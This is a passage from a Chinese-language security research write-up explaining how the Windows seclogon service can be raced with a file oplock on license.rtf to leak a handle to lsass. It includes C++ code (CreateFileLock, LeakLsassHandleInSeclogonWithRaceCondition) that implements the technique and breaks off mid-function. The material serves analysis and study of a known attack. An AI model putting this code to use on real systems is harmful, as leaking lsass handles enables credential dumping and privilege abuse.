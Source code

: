但实际上，通过检查 `OpenProcess` 和 `CloseHandle` 之间的所有代码，找不到任何与文件相关的函数 😕

但是，`CloseHandle` 调用之前会调用 [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasuserw)

![image.png](https://dre4merp-cloud-images.oss-cn-beijing.aliyuncs.com/202412041550791.png "202412041550791.png")

`CreateProcessAsUser` 允许在指定令牌表示的用户的安全上下文中创建新进程。执行一些准备步骤后，它会从 kernel32.dll 调用 `CreateProcessInternalW`，该函数会在进入内核 `NtCreateUserProcess` 之前做好所有的准备工作。在内核中执行的操作之一是打开提供的文件路径并创建 section 对象。

![image.png](https://dre4merp-cloud-images.oss-cn-beijing.aliyuncs.com/202412041551046.png "202412041551046.png")

谁说 EXE 一定要是一个 EXE 呢 😆

我们可以针对某个文件创建 [OpLock](https://github.com/googleprojectzero/symboliclink-testing-tools/blob/main/CommonUtils/FileOpLock.cpp)，并将其作为 `CreateProcessAsUser` 的参数进行传递。这样，在 `NtCreateUserProcess` 创建 Section 时就可以将其阻塞，来让我们有足够的时间去复制句柄。

``` cpp
// credits to @tirannido
// took from --> https://github.com/googleprojectzero/symboliclink-testing-tools/blob/main/CommonUtils/FileOpLock.cpp
void CreateFileLock(HANDLE hFile, LPOVERLAPPED overlapped) {
    REQUEST_OPLOCK_INPUT_BUFFER inputBuffer;
    REQUEST_OPLOCK_OUTPUT_BUFFER outputBuffer;
    inputBuffer.StructureVersion = REQUEST_OPLOCK_CURRENT_VERSION;
    inputBuffer.StructureLength = sizeof(inputBuffer);
    inputBuffer.RequestedOplockLevel = OPLOCK_LEVEL_CACHE_READ | OPLOCK_LEVEL_CACHE_HANDLE;
    inputBuffer.Flags = REQUEST_OPLOCK_INPUT_FLAG_REQUEST;
    outputBuffer.StructureVersion = REQUEST_OPLOCK_CURRENT_VERSION;
    outputBuffer.StructureLength = sizeof(outputBuffer);
    DeviceIoControl(hFile, FSCTL_REQUEST_OPLOCK, &inputBuffer, sizeof(inputBuffer), &outputBuffer, sizeof(outputBuffer), NULL, overlapped);
    DWORD err = GetLastError();
    if (err != ERROR_IO_PENDING) {
        printf("Oplock Failed %d\n", err);
        exit(-1);
    }
}

void LeakLsassHandleInSeclogonWithRaceCondition(DWORD lsassPid) {
    wchar_t fileToLock[] = L"C:\\Windows\\system32\\license.rtf";
    OVERLAPPED overlapped;
    DWORD dwBytes;
    THREAD_PARAMETERS thread_params;
    HANDLE hFile = CreateFile(fileToLock, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_FLAG_OVERLAPPED, NULL);
    overlapped.hEvent = CreateEvent(NULL, FALSE, FALSE, NULL);
    CreateFileLock(hFile, &overlapped);
    thread_params.pid = lsassPid;
    thread_params.cmdline = fileToLock;
    // we need to run CreateProcessWithToken() in a separate thread because the file lock would also lock our thread
    CreateThread(NULL, 0, ThreadSeclogonLock, (LPVOID)&thread_params, 0, NULL);
    // this call will halt the current thread until someone will access the locked file. We expect seclogon trying to access license.rtf when calling CreateProcessAsUser()
    if (!GetOverlappedResult(hFile, &overlapped, &dwBytes, TRUE)) {
        printf("Oplock Failed. Exiting...\n");
        exit(-1);
    }
    printf("Seclogon thread locked. A lsass handle will be available inside the seclogon process!\n");
```
